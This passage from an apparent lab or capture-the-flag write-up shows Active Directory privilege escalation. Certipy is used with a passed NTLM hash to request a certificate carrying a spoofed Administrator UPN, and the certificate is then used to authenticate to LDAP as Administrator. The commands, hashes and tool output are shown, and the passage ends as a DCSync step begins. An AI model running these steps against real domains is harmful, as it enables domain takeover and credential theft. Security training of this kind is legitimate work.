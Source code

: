### Enrolling for BackwardUser

We can use `certipy` to request a certificate for the `iqbal.hassan` user, but artificially setting the `userPrincipalName (UPN)` to `Administrator@backward.rv`:

```
~$ certipy req -u 'iqbal.hassan' -hashes ':dfd368bc95bd217c04415fed81c8933e' -dc-host 'dc02.backward.rv' -ca 'BACKWARD-ENTERPRISE-CA' -upn 'Administrator@backward.rv' -template 'BackwardUser' 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: dc02.backward.rv.
[!] Use -debug to print a stacktrace
[*] Requesting certificate via RPC
[*] Request ID is 11
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator@backward.rv'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

We can then use this `PFX` file to authenticate to `LDAP` as `Administrator`:

```
~$ nxc ldap dc02.backward.rv -u 'Administrator' --pfx-cert administrator.pfx         
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\Administrator:d0e0677333c1c1e80a537d580b158509 (Pwn3d!)
```

As we did earlier in [DCSync Attack](#dcsync-attack), we can use `nxc` to perform a `DCSync` attack to obtain the `NTLM` hash of the `Administrator` user:

```
